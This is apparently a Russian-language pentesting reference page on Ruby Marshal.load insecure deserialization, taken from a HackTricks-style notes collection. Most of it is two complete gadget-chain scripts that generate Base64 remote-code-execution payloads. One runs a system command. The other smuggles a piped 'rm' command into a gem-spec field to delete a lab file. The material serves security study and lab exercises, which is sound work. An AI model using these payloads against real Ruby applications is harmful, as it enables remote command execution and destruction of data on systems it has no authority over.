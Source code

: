 # Ruby

Функция `Marshal.load`.

Payloads All The Things: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)

Сериализованные данные начинаются с:

```
04 08 ...
```

Пример:

![](<../../../.gitbook/assets/изображение (1).png>)

## RCE Gadgets

### Universal Gadget Ruby 2.x-3.x

Link: [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)

```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "ls -la /home")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
# puts Marshal.load(payload)


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```

### Unversal Gadget Ruby 2.0-2.5

```ruby
#!/usr/bin/env ruby

class Gem::StubSpecification
    def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|rm /home/carlos/morale.txt")

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
    def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
    def marshal_dump
        [$dependency_list]
    end
end

payload = Marshal.dump(Gem::Requirement.new)

require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```
